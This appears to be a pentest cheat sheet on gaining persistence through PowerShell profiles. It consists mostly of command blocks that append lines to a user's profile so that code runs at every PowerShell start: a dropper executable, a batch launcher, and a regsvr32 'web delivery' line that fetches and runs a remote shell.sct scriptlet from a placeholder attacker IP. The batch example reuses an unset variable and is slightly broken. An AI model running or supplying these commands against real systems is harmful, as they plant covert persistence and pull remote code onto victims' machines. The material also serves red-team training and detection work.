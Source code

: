 # Powershell Profile

## 01 - Powershell

### 1.1 - Dropper

```powershell
PS C:\> echo $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Start-Process "C:\tmp\pentestlab.exe"'
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

### 1.2 - Batch Script

```powershell
PS C:\> echo $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
Add-Content $profile "Invoke-Item C:\tmp\launcher.bat"
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

### 1.3 - Web Delivery

```powershell
PS C:\> echo $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Invoke-Command -ScriptBlock { regsvr32 /s /n /u /i:http://<IP>/shell.sct scrobj.dll }'
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

---
## References

- [Pentestlab Blog: Persistence Powershell Profile](https://pentestlab.blog/2019/11/05/persistence-powershell-profile/)

- [Abusing Powershell Profiles](https://enigma0x3.net/2014/06/16/abusing-powershell-profiles/)

- [PowershellProfile Macro](https://github.com/enigma0x3/PowershellProfile/blob/master/Macro)
